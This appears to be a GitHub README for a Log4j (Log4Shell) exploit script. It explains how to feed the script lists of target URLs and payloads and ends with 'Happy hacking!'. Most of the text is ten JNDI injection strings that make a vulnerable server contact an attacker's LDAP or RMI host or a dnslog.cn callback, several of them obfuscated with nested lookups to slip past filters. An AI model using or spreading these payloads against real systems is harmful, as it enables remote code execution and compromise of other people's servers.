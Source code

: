 # log4j
A simple script to exploit the log4j vulnerability

#Before Using the script:
1. Only versions between 2.0 - 2.14.1 are affected by the exploit
2. Create two txt files - one containing a list of URLs to test and the other containing the list of payloads.
3. Payload examples:

${jndi:ldap://[malicious ip address]/a}
${jndi:ldap://n9iawh.dnslog.cn/}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//[malicious ip address]/a}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://[malicious ip address]/as}
${${::-j}ndi:rmi://[malicious ip address]/a}
${${lower:jndi}:${lower:rmi}://[malicious ip address]/poc}
${jndi:rmi://[malicious ip address]}
${${lower:${lower:jndi}}:${lower:rmi}://[malicious ip address]}
${jndi:${lower:l}${lower:d}ap://[malicious ip address]/a}
${jndi:${lower:l}${lower:d}ap://[malicious ip address]/}

Happy hacking!
